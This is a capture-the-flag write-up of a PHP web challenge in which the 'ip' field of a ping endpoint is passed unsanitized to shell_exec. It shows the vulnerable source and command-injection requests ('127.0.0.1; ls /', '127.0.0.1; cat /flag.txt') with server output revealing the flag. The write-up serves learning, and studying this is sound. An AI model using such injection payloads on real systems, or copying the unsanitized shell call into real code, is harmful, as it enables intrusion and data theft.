

This challenge exposes a web site, with a terminal that allows user to send some commands to monitor and control robots.



The website is a php application, with a route to handle ping to the robot (source code was provided)

```php
$router = new Router();
$router->new('GET', '/', 'ReconController@index');
$router->new('POST', '/api/ping', 'ReconController@ping');
```

From the prompt.terminal, we see that the ping command takes a paramter, that sounds interesting.

```php
    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
```

A parameter from the body, `ip`, is gicen to a ReconModel, looking at the ReconModel:

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}

```

This paramter is passed to a system call, and is not sanitized, let's try to run some commands through it:

```bash
» http http://144.126.196.198:31352/api/ping ip="127.0.0.1; ls /"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json; charset=utf-8
Date: Fri, 24 Mar 2023 14:40:15 GMT
Server: nginx
Transfer-Encoding: chunked
X-Powered-By: PHP/8.0.25

{
    "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nwww\n"
}
» http http://144.126.196.198:31352/api/ping ip="127.0.0.1; cat /flag.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json; charset=utf-8
Date: Fri, 24 Mar 2023 14:42:18 GMT
Server: nginx
Transfer-Encoding: chunked
X-Powered-By: PHP/8.0.25

{
    "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"
}
```

And so we get the flag.
